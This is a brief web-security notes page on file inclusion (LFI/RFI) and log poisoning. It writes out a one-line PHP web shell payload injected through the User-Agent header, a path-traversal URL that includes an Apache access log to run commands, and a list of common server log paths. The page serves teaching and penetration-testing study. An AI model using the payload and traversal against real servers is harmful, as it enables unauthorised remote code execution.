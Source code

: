 ```yaml
---
title: Notes | Web | File Inclusion
author: Stillwolfing
date: 2023-04-23
categories: [Notes, File Inclusion]
tags: [Notes, Web, File Inclusion]
permalink: /Notes/Web/lfi
---
```



## LFI / RFI

File inclusion occurs when the user can control the file that will be loaded by the server.

LFI (Local File Inclusion) -> The server loads a local file.

RFI (Remote File Inclusion) -> The server loads a file located on a remote server.


## Log Poisoning

### How does this work?

Let's imagine that the website is using PHP and you can control the file that is being loaded (LFI). You want to be able to execute php code to gain RCE.

You replace your User-Agent by a malicious PHP code. So, when you display the log file, your User-Agent will appear and the code will be executed.

### Example:

User-Agent:
```
<?php system($_GET['cmd']); ?>
```

Url :

http://site.com/test.php?view=../../../../../var/log/apache2/access.log?cmd=ls

Here the output of the "ls" command is display on the screen.

Possible log files:
```
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

### LFI lists for fuzzing:
- https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

### Tools:
- https://github.com/takabaya-shi/LFI2RCE









